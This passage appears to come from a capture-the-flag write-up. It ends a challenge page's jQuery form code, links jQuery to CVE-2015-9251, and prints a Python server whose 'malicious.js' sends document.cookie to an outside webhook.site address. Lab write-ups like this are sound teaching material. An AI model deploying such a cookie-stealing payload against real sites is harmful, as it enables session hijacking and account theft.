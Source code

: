 ```js
                            errorMessage.text(data.error).addClass("alert").slideDown();
                        }
                    },
                    error: (jq, status) => {
                        form.find('.loading').remove();
                        if (response = jq.responseJSON) {
                            errorMessage.text(response.error).addClass("alert").slideDown();
                        } else {
                            errorMessage.text('An error occurred while processing the request.').addClass("alert").slideDown();
                        }
                    },
                });
            });
        });
    </script>
</body>
```

Let discover if there is any CVE or public exploit for `jquery` library. <br>
```js
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.7.0/jquery.min.js"
```

We found a [CVE-2015-9251](https://www.cvedetails.com/cve/CVE-2015-9251/) that is related to `jquery` library. And also from [Github Issue](https://github.com/postfixadmin/postfixadmin/issues/734). Let find some POCs to understand more and exploit this challenge. <br>

I found this [POC](https://github.com/hackgiver/CVE-2015-9251), let try it out. <br>
```python
from http.server import SimpleHTTPRequestHandler, HTTPServer

class CustomHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        if self.path == "/malicious.js":
            self.send_response(200)
            self.send_header('Content-Type', 'text/javascript')
            self.send_header('Access-Control-Allow-Origin', '*')
            self.send_header('Access-Control-Allow-Headers', 'x-requested-with')
            self.send_header('Access-Control-Allow-Credentials', 'true')
            self.send_header('X-Content-Type-Options', 'nosniff')
            self.end_headers()
            self.wfile.write(b"fetch('https://webhook.site/58141f9b-d36d-46d9-b8b0-c782317584f3/?flag='+document.cookie)")
        else:
            self.send_response(404)
            self.end_headers()

server_address = ('', 8081) 
httpd = HTTPServer(server_address, CustomHandler)
print("The malicious server starts at http://localhost:8081")
httpd.serve_forever()
```
